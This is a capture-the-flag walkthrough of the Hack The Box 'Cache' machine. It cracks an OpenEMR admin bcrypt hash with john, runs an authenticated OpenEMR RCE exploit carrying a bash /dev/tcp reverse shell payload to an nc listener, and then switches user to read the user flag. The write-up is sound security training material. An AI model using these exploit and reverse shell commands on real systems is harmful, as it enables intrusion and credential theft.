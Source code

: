 After the SQL injection, we have the hash to the openemr_admin account. With `john` we can crack the hash and get the password.

```
# cat hash 
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
# john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
...
```

With a valid set of credentials, we can use an authenticated exploit in order to leverage remote code execution to get a shell on the box!

We will use 45161.py in order to do this. It mentions that it will overwrite the defaults on the box, which is not good, unless we change the payload. Using Burp, we can grab the proper payload for the PUT request and replace it to create [exploit.py](exploit.py). Now we can setup a simpler `nc` listener and give the exploit a simple bash reverse shell and get access to the box.

```
# python exploit.py -u openemr_admin -p xxxxxx -c "bash -i >& /dev/tcp/10.10.14.130/1234 0>&1" http://hms.htb
...
[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```
```
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.130] from (UNKNOWN) [10.10.10.188] 48748
bash: cannot set terminal process group (1851): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ 
```

## User

Before moving on, we will upgrade our shell to a fully functional and proper TTY so that we can get things like tab completion and history scrolling. The first things we will check on the box is other users.

```
www-data@cache:/var/www/hms.htb/public_html/interface/main$ ls /home
ash  luffy
```

We see there is one user, ash, who we already have credentials for. We can simply `su` to that user and grab the user flag.

```
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su ash
Password: 
ash@cache:/var/www/hms.htb/public_html/interface/main$ cd
ash@cache:~$ cat user.txt 
c1c118**************************
```
